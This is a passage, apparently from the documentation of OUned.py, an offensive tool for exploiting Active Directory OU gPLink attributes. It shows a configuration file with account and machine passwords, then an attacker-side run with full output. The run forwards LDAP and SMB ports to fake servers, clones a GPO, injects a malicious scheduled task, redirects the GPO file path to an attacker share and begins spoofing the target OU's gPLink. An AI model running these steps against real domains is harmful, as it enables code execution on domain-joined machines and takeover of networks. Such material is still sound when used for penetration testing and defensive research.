 ```ini
smb_username=qroland
smb_password=Password1!

# The machine account name and password on the target domain that will be used to fake the SMB server delivering the GPT
# Do not forget to escape '%' signs by doubling them ! (e.g. '%%')
smb_machine_name=OUNED2$
smb_machine_password=fDS*6gm=FwBesh+0+=W-w@9(WX "(xPU5.F0lQN;p;jhG\@s+vQ/`c35f]Uk7P[VI)FE.\wncO(&61UWWjA,Na(7LkbDDEj-Yq,Ht5cM,*,Y#rV.gKGAl=:b
```

**OUned.py** will execute the same steps as when targeting computer objects, and will in addition:

- Perform additional checks related to the SMB dummy domain controller configuration.
    
- Set up port 445 forwarding to SMB dummy domain controller.
    
- Upload malicious GPT files to the SMB dummy domain controller share specified in the configuration.
    

_# On attacker machine_

```shell
$ sudo python3 OUned.py --config config.example.ini

=== PERFORMING VARIOUS SANITY CHECKS RELATED TO THE SETUP ===
[+] LDAP computer account OUNED$ valid in target domain.
[+] SMB computer account OUNED2$ valid in target domain.
[+] The DNS record OUNED.corp.com exists and matches the provided attacker IP address (192.168.123.16)
[+] The DNS record OUNED2.corp.com exists and matches the provided attacker IP address (192.168.123.16)
[+] Successfully authenticated to LDAP server with DC account and LDAP machine_password. LDAP and machine account passwords are synchronized.
[+] Successfully authenticated to SMB server with DC account and SMB machine_password. SMB server and SMB machine account passwords are synchronized.

=== SETTING UP PORT FORWARDING ===
[*] Creating LDAP port forwarding. All traffic incoming on port 389 on attacker machine (192.168.123.16) should be redirected on port 389 of the fake LDAP server (192.168.125.245)
[+] Created port forwarding (192.168.123.16:389 -> 192.168.125.245:389)

[*] Creating SMB port forwarding. All traffic incoming on port 445 on attacker machine (192.168.123.16) should be redirected on port 445 of the fake SMB server (192.168.126.206)
[+] Created port forwarding (192.168.123.16:445 -> 192.168.125.245:445)

=== PERFORMING GPO OPERATIONS (CLONING, INJECTING SCHEDULED TASK, UPLOADING TO SMB SERVER IF NEEDED) ===
[*] Cloning GPO 7B7D6B23-26F8-4E4B-AF23-F9B9005167F6 from fakedc 192.168.125.245.
[+] Successfully downloaded GPO from fakedc to 'GPT_out' folder.
[*] Injecting malicious scheduled task into downloaded GPO
[+] Successfully injected malicious scheduled task.
[*] Modifying gPCFileSysPath attribute of GPO on fakedc to \\ouned2.corp.com\synacktiv (initial value saved: \\ouned.corp.com\sysvol\ouned.corp.com\Policies\{7B7D6B23-26F8-4E4B-AF23-F9B9005167F6})
[+] Successfully updated gPCFileSysPath attribute of fakedc GPO.
[*] Modifying gPCUserExtensionNames attribute of GPO on fakedc to [{00000000-0000-0000-0000-000000000000}{CAB54552-DEEA-4691-817E-ED4A4D1AFC72}][{AADCED64-746C-4633-A97C-D61349046527}{CAB54552-DEEA-4691-817E-ED4A4D1AFC72}]
[+] Successfully updated extension names of fakedc GPO.
[*] Incrementing fakedc GPO version number (GPC and cloned GPT). This is actually mainly to ensure it is not 0...
[+] Successfully updated GPC versionNumber attribute
[+] Successfully uploaded GPO to SMB server 192.168.126.206, on share synacktiv.

=== SPOOFING THE GPLINK ATTRIBUTE OF THE TARGET OU ===
```